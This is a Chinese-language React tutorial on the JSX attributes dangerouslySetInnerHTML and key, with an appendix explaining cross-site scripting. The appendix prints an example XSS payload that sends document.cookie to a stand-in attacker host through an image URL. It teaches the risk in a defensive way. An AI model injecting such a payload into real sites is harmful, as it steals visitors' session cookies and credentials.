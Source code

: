 # React元素属性
JSX中有3个常用的非DOM属性，分别是: dangerouslySetInnerHTML、ref、key。

## dangerouslySetInnerHTML属性
在JSX中直接插入HTML代码，但是如果能避免使用这个 属性则尽量避免使用。

滥用innerHTML 可能会导致 cross-site scripting (XSS) 攻击。

我们的设计哲学是让确保安全应该是简单的，开发者在执行“不安全”的操作的时候应该清楚地知道他们自己的意图。dangerouslySetInnerHTML 这个 prop 的命名是故意这么设计的，以此来警告，它的 prop 值（ 一个对象而不是字符串 ）应该被用来表明净化后的数据。

如果服务端在接口上已经对html进行了转义，并且可以完全信任服务端的接口数据，可以使用dangerouslySetInnerHTML。

``` js
var a = {__html:'<a href="http://www.baidu.com">百度一下</a>'};

class Link extends React.Component{
    render(){
        return <div dangerouslySetInnerHTML={this.props.html}></div>
    }
}

ReactDOM.render(<Link html={a}/>,document.querySelector('#box'));
```
</script>

## key
key是一个可选的唯一标识符，通过给组件设置一个独 一无二的键，并确保它在一个渲染周期中保持一致，使得 React能够更只能地决定应该重用一个组件还是销毁并重 建一个组件，进而提高渲染性能。

``` js
class List extends React.Component{
    constructor(props){
        super(props);
        this.state = {
            val:['king','hi','lilei','lucy']
        };
    }
    render(){
        var ls = function(v){
            return v.map(function(a,i){
                return <li key={i}>{a}</li>
            })
        }
        return (
            <ul>{ls(this.state.val)}</ul>
        )
    }
}

ReactDOM.render(<List/>,document.querySelector('#app'))
```
</script>


由数组创建的子组件必须有key属性，否则的话你可能见到下面这样的warning：

> Warning: Each child in an array or iterator should have a unique "key" prop. Check the render method of `ServiceInfo`. See https://fb.me/react-warning-keys for more information.

可能你会发现，这只是warning而不是error，它不是强制性的，为什么react不强制要求用key而报error呢？其实是强制要求的，只不过react为按要求来默认上帮我们做了，它是以数组的index作为key的。


### key的值要稳定唯一
在数组中生成的每项都要有key属性，并且key的值是一个永久且唯一的值，即稳定唯一。

在理想情况下，在循环一个对象数组时，数组的每一项都会有用于区分其他项的一个键值，相当数据库中主键。这样就可以用该属性值作为key值。但是一般情况下可能是没有这个属性值的，这时就需要我们自己保证。

## 附录
### cross-site scripting(XSS)攻击
XSS攻击全称跨站脚本攻击,是一种经常出现在web应用中的计算机安全漏洞，它允许恶意web用户将代码植入到提供给其它用户使用的页面中。

让我们首先了解XSS攻击到底是怎样完成的。

就以一个博客应用为例。其常常需要允许读者对博主的文章进行评论。在输入评论的编辑栏中，我们可以输入对该文章的评论，也可以输入以下HTML标记：
``` js
<Script>alert(“XSS attack available!”);</Script>
```
在读者按下提交键之后，该标记将被提交到服务器上，并在其它用户访问时作为评论显示。此时该用户所看到网页中包含该标记的部分元素可能为：
``` js
<div>
    <Script>alert(“XSS attack available!”);</Script>
</div>
```
而从用户的角度来看，该网页中就出现了一个警告。

也就是说，用户输入的脚本语言已经被用户的浏览器成功执行。当然，这可能只是一个对该网站的善意提醒。但是对于一个真正具有恶意的攻击者，其所插入的脚本代码更可能如下所示：
```js
<script>document.write('<img src=http://www.hackerhome.com/grabber.jsp?msg='+document.cookie+'width=16 height=16 border=0 />');</script>
```
该段脚本将向当前评论内插入一个图片，而该图片所对应的URL则指向了hackerhome中的JSP页面grabber.jsp。从访问该评论的用户这一角度看来，其仅仅是一个不能显示的图片。但是对于恶意攻击者而言，该JSP页面将自动记录传入的msg参数内容，即访问评论用户所使用的cookie。该cookie可能包含用户的敏感信息，甚至是用户名，密码等重要信息。

所以，react的做法是不直接读取你的html代码，以此来避免cross-site scripting (XSS)攻击，让你的代码更加安全
